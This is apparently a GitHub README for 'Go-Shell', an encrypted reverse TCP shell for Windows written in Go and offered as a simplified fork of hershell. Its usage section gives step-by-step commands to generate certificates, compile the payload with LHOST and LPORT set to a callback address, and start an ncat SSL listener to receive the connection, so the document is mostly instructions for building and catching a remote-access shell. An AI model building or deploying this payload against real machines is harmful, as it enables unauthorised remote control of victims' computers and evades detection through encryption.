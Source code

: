 <div >
    <img src="assets/owl.jpg" align="left" height="40px" width="40px"/>
    <img src="assets/medusa.png" align="right" height="40px" width="40px"/>
    <h1 align="center" > Go-Shell - Golang Reverse TCP Shell </h1>
</div>

## About

Windows 32/64 encrypted reverse TCP shell a simplified version of [hershell](https://github.com/lesnuages/hershell) which has a lot more features like cross compile to linux (check it out!).

<img src="assets/gopher.png" align="right" width="180" height="200" />

## Features
- Encrypted
- Can compile to 32 or 64bit architecture
- Certificate fingerprint pinning 

## Why?

I just wanted to practice some coding and a reverse tcp shell for windows with encryption and no extra functionalities like meterpreter integration

## Usage

- Clone the repo to compile it and modify it (Make sure to have golang installed!)
```bash
git clone https://github.com/Alpharivs/go-shell.git
```
- Prepare and compile the payload
```bash
# Generate Certificates
make prepare
# Compile Shell 
make windows64/windows32 LHOST=[IP] LPORT=[PORT]
# Delete Certificates and shell
make clean
```
- Set up a listener with ncat or any tool that can handle incoming ssl connections
```bash
# Set up listener
ncat --ssl --ssl-cert server.pem --ssl-key server.key -lnvp [PORT]
```
- execute !

if you want a more in depth explanation of how it works check out [hershell](https://github.com/lesnuages/hershell).

<h2 align="center" > LVX-SIT</h2>
<h3 align="center" > MMDCCLXXV -- Ab urbe condita </h3>